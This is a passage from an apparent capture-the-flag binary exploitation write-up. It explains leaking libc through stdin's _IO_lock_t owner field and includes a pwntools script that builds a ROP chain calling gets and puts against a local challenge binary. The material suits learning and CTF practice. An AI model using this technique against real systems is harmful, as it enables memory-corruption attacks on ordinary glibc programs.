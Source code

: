 Well, since now have a pointer to stdin's `_IO_lock_t` struct in rdi, we can simply call `gets()` again to write into this region. But how does that help us? Before we do anything, we'll need a libc leak. Here is the layout of this struct; 

```c
typedef struct {
    int lock;
    int cnt;
    void *owner;
} _IO_lock_t;
```

The `owner` field gets assigned to the address of the `TLS` struct for the current thread. The TLS (Thread Local Storage) struct is a method to keep track of variables that have one instance per thread; for instance, the stack canary is stored here! Crucially, if we can leak this pointer, we'll have our libc leak! What we can do is overflow the buffer, call `gets()` to let us read into this struct, and then send in a payload of 4 chars and three null bytes like so. 

```py
p.sendline(b"A" * 4 + b"\x00"*3)
```

This will over write the `lock` integer and will set `cnt` to zero. Setting the count to zero will cause it to underflow because `cnt` is decremented after a lock is released. See [_IO_lock_unlock](https://elixir.bootlin.com/glibc/glibc-2.35/source/sysdeps/nptl/stdio-lock.h#L67). If you also look at the aforementioned source of `_IO_lock_unlock` you'll see that because of the underflow, the check in the if statement fails and owner does not get set to null. This ensures that the padding up until `*owner` does not contain a null byte and `puts` can successfully print out the `TLS` struct and thus we have our libc leak. 



With this leak we can now calculate the base address of libc by setting a breakpoint after our leak and taking a peak in gdb to calculate the offset relative to the base of libc. The python exploit for everything thus far is as follows. 

```python
from pwn import *
elf = context.binary = ELF("chall_patched")
libc = ELF('libc.so.6')
context.terminal = ['tmux', 'split-window', '-h']
p = elf.process()
gdb.attach(p, script)
offset = 72
ret = 0x0000000000401016
offset = 72
payload = flat([
    b'a' * 72,
    ret,
    elf.plt.gets,
    elf.plt.gets,
    elf.plt.puts,
    ret,
    elf.symbols['main']
])
p.sendlineafter(b'2. Multiplayer\n', b'1')
p.sendlineafter(b'name:', payload)
p.sendlineafter(b'2. Creative', b'1')
p.sendlineafter(b'2. Exit', b'2')
p.sendline(b"A" * 4 + b"\x00"*3)
p.recvline()
leak = p.recvline()
leak = leak[-7:].strip(b'\n')
leak = u64(leak.ljust(8, b'\x00'))
libc.address = leak + 0x28c0
```